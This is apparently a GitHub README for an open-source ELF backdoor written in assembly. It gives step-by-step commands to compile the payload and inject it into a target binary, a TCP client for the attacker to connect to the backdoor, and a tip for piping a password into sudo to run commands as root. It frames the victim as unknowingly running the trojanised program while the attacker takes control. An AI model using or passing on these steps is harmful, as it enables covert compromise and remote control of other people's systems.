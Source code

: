 # Simple-elf-backdoor

It is an elf backdoor written in pure assembly language.

## Attacker
### backdoor
```bash
$ gcc elfinject.c -o elfinject -lelf
$ nasm -f bin backdoor.s -o backdoor.bin
$ ./elfinject elftarget backdoor.bin ".injected" 0x800000 0
```
### backdoor_client
```
$ python3 tcpClient.py
```
## victim
If victim download or obtain the file in any way
```
$ ./elftarget
```
The victim uses the original program without problems and Attackers use backdoors.

## Demo
### backdoor
![backdoor](https://github.com/gbdngb12/Simple-elf-backdoor/assets/104804087/84720f5f-7caf-45aa-b28a-00632b779317)

### backdoor_client
![client](https://github.com/gbdngb12/Simple-elf-backdoor/assets/104804087/29cf4cf6-bf88-456f-8cc2-052c8ae33f0c)

## Tips
### How to use sudo
```bash
$ python3 tcpClient
echo "password" | sudo -S <command>
```
